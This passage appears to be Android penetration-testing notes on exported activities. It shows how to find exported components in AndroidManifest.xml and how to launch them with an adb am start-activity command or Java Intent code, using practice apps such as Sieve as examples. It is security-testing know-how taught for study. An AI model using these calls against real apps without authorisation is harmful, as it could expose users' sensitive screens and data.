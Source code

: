 # Content
- [Exported Actvites](#exported-actvites)
  - [Exported Actvites with Extras](#exported-actvites-with-extras)
  - [Exported Actvites with Return](#exported-actvites-with-return)
  - [Intent Redirect](#intent-redirect)
- [Broadcastreceiver](#broadcastreceiver)
- [ContentProvider](#contentprovider)

# Exported Actvites
exported actvites can lead to see senstive info also can lead to open another actvites and more functions which maybe danger if anyone can do that
## How to find ? 
### in `AndroidManifest.xml`
- search for  `android:exported="true"` in an activity
- before android 12 if an activity has an `intent-filter` declared in the manifest, Android automatically considers the activity as exported, even if you don't explicitly set `exported="true"`

```xml
<intent-filter>
  <action android:name="android.intent.action.MAIN"/>
  <category android:name="android.intent.category.LAUNCHER"/>
</intent-filter>
```

### open activity using shell
```powershell
am start-activity -n <package name>/.<activity name>
am start-activity -n com.mwr.example.sieve/.FileSelectActivity
```

### open activity by another app
```java
Intent I =  new Intent();
ComponentName C = new ComponentName("<app package name>", "<activity name>");
I.setComponent(C);
startActivity(I);

// example
Intent I =  new Intent();
ComponentName C = new ComponentName("com.mwr.example.sieve", "com.mwr.example.sieve.PWList");
I.setComponent(C);
startActivity(I);

// other way
Intent intent = new Intent();
intent.setClassName("io.hextree.activitiestest", "io.hextree.activitiestest.SecondActivity");
startActivity(intent);
```
